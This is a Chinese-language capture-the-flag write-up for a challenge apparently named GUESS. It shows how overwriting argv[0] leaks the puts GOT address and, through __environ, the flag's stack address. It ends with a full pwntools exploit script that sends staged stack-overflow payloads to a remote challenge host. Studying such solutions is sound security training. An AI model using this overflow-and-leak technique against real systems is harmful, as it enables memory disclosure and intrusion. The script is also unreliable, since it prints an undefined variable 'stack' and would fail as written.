 有两种方法找到argv[0]的地址：

1. 在main下断点
2. print &__libc_argv[0]

![20210522013616](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20210522013616.png)
![20210522013633](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20210522013633.png)

接下来就要找到s2和argv[0]之间的距离，这个通过gdb调试就可以得到
这样，如果把argv[0]中的内容改为puts的got地址，就能将其输出，进而得到libc版本

第二步是找到flag在栈中的地址。
在libc中有一个_environ函数，指向栈中保存着环境变量的地址，这个地址和[flag]之间的偏移是不变化的
![20210522020339](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20210522020339.png)

wp：

```py
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = "debug"
p = remote("node3.buuoj.cn",27846)
#p = process("./GUESS")
elf = ELF("./GUESS")

# argv[0] stores file PATH by default

# &argv[0]==0x7fffffffde48
# gets->0x7fffffffdd20

offset1 = 0xe48 - 0xd20
#print hex(offset1)

payload = "a"*0x128 + p64(elf.got['puts'])
p.sendlineafter("Please type your guessing flag\n",payload)
p.recvuntil(": ")

puts = u64(p.recvuntil(" ")[:-1].ljust(8,'\x00'))

print hex(puts)

libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
environ = base + libc.dump('__environ')
print (environ)

payload = "A"*0x128 + p64(environ)

p.sendlineafter("Please type your guessing flag\n",payload)

p.recvuntil(": ")
environ_addr = u64(p.recv(6).ljust(8,'\x00'))

print hex(stack)

payload = "a"*0x128 + p64(environ_addr - 360)
p.sendlineafter("Please type your guessing flag\n",payload)
print p.recv()
print p.recv()

# 0x7fffffffde58 - 0x7fffffffdcf0
```

